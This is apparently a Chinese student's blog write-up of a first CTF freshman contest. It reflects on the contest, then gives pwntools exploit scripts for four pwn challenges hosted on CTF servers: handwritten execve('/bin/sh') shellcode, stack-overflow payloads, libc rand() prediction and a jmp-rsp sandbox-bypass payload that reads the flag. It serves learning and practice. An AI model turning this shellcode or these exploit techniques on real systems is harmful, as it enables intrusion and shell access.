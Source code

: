 ```yaml
---
title: 第一场CTF比赛
description: 关于我的第一场CTF比赛
pubDatetime: 2023-04-15
ogImage: ../../assets/1.jpg
language: cn
tags: 
  - 网络安全
---
```

## 第一次参加CTF新生赛总结与反思
因为昨天学校那边要进行天梯模拟赛，所以被拉过去了。<br />16点30分结束，就跑回来宿舍开始写。<br />第一题和第二题一下子getshell，不用30分钟，可能我没想那么多，对比网上的WP，自己和他们有点不太一样，比较暴力。<br />大概17点10的时候，写第三题，可能自己第一次遇到随机数问题，我当时的想法是网上有没有随机数种子的工具，查了一下，还真有这个库。说明了pwntools库是个宝藏，自己平时应该抽空研究一下那个库，利用好他，成为一把好工具。<br />后面第三题，刚结束的时候，写出来了。其实思路没有错，就是自己的脚本写的时候，想让代码看起来可读性更高（可能以前写开发项目写习惯了，强迫症），然后多取了一次随机数，导致和远程那边不同步。后面不知道怎么的，把那个变量删了，就好了，当时傻逼了。<br />第四题知道是orw题目，目标是读flag，但是不会写shellcode。只能说，有思路，写不出，所以后面也应该提升自己的shellcode能力。不能只会写那种比较固定的shellcode。<br />虽然不知道其他人情况如何，但是自己第一次参加，接触pwn还没有一个月，学习反馈还是挺满意。<br />一路也遇到了很多师傅，结交很多朋友！继续努力！
## 比赛题目总结（核心，一定要学会shellcode！）
> PS：以下题目的保护权限都开得很少！！！
> 所以就不贴图checksec图片了！！！
> 要获得flag，本次比赛关键在于：会自己写简短的shellcode，会使用随机数库。

### Shellcode（编写短shell）
> 题目思路很简单，就是shellcode，不过长度有限制。
> 我是自己手改pwntools。

使用pwntools生成的，本质就是执行/* execve(path='/bin///sh', argv=['sh'], envp=0) */
```python
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```
那么开始手搓，搞定！
> 注意，32位是int0x80，64位是syscall

```python

shellcode='''
mov rbx, 0x68732f6e69622f  
push rbx
push rsp 
pop rdi
xor esi, esi               
xor edx, edx            
push 0x3b
pop rax
syscall
'''
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727777007-a60311bc-38b1-4da3-94dc-fddf9e9e4f8d.png#averageHue=%23060403&clientId=uddbdf830-9bbd-4&from=paste&height=319&id=udd613c04&originHeight=479&originWidth=1274&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=53472&status=done&style=none&taskId=u039c4f2f-78df-4a74-ad8d-78661bc973a&title=&width=849.3333333333334)
```python
from pwn import *
context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./pwn2')
io = remote('node6.anna.nssctf.cn',28961)
io.recvuntil(b'Please.')

shellcode='''
mov rbx, 0x68732f6e69622f  
push rbx
push rsp 
pop rdi
xor esi, esi               
xor edx, edx            
push 0x3b
pop rax
syscall
'''

io.sendline(asm(shellcode))

io.recvuntil(b"start!")

payload =  b'a' * (0xa + 8 ) + p64(0x6010A0)

io.sendline(payload)

io.interactive()
```
### EASY PWN（直接暴力）
> 不用想那么多，直接随便输入垃圾数据即可
> 因为只要V5大于0就ok了，甚至偏移都不用想，直接乱输入
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727698637-05acd4de-d886-421d-820b-aca7f36dea93.png#averageHue=%23040301&clientId=uddbdf830-9bbd-4&from=paste&height=700&id=u55b26be6&originHeight=1050&originWidth=1005&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=88239&status=done&style=none&taskId=u6e73728f-42a0-4f46-80b2-edd5976d13f&title=&width=670)

```python
from pwn import *
context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./easypwn')
io = remote('node6.anna.nssctf.cn',28962)
payload = b'\x00'
payload = payload.ljust(0x30,b'a')
io.sendline(payload)
#io.sendlineafter(b'Password:',payload)

io.interactive()
```
### 真男人下120层（随机数库）
> 第一次认识，随机数这个库，然后没有什么难的
> 暴力循环120次即可
> 感觉一点都不pwn
> 注意脚本编写时候，别自作多情多取一次
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727860579-93511b92-b3f9-454c-916a-3fcde4b6a841.png#averageHue=%23040201&clientId=uddbdf830-9bbd-4&from=paste&height=358&id=u8f80025a&originHeight=537&originWidth=1581&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=47424&status=done&style=none&taskId=uc5005af7-56fc-4133-bc4b-2ed1798a063&title=&width=1054)

```python
from  pwn import *
from  ctypes import *
#context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./bin')
io=remote('node6.anna.nssctf.cn',28130)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

srand = libc.srand(libc.time(0))
srand = libc.srand(srand % 3 - 1522127470)
io.recvuntil('Floor')

for i in range(121):
     io.sendline(str(libc.rand( ) % 4 + 1).encode( ))

io.interactive()

```
### Random（绕沙箱加短脚本）
> 程序禁了 execv，没开 NX，有 ‘jmp rsp’ 这么一个 gadget，所以往栈上写的 shellcode 是可执行且能利用到的。
> 很明显，是要读flag
> 先用pwn生成一个cat
> 用ljust左对齐抬高到0x28
> 返回地址为jmp rsp
> 填充 asm('sub rsp,0x30;call rsp')
> 那么返回的时候，执行jmp rsp，即asm('sub rsp,0x30;call rsp')，然后cat flag
> 太妙了！！！第一次见到这样的！

```python
    jmp=0x40094E
    shellcode=asm(shellcraft.cat('flag'))
    shellcode=shellcode.ljust(0x28,b'\x00')
    payload=shellcode+p64(jmp)+asm('sub rsp,0x30;call rsp')
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727956589-d7bb4c33-467c-40a0-b3dc-8d8ee7bec955.png#averageHue=%23030202&clientId=uddbdf830-9bbd-4&from=paste&height=665&id=u244b8bdf&originHeight=998&originWidth=1331&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=82620&status=done&style=none&taskId=u2b5945ba-fda3-4f65-a5a9-5e6b8d3abc2&title=&width=887.3333333333334)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727966018-1eda846a-bdde-4eb1-b528-c36331666492.png#averageHue=%23070604&clientId=uddbdf830-9bbd-4&from=paste&height=142&id=u9f26ea37&originHeight=213&originWidth=838&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=17430&status=done&style=none&taskId=uabe194ae-9f33-4f93-b9bc-bb83889f606&title=&width=558.6666666666666)
```python
from pwn import *
from ctypes import *
context(os='linux',arch='amd64',log_level='debug')
io=remote('node5.anna.nssctf.cn',28933)
#io=process('./RANDOM')

libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
srand =  libc.srand(libc.time(0))

for i in range(100):
    io.sendlineafter('please input a guess num:',str(libc.rand( )%50).encode( ))
    io.recvline()
    jmp=0x40094E
    shellcode=asm(shellcraft.cat('flag'))
    shellcode=shellcode.ljust(0x28,b'\x00')
    payload=shellcode+p64(jmp)+asm('sub rsp,0x30;call rsp')
    io.send(payload)
    io.interactive()
```
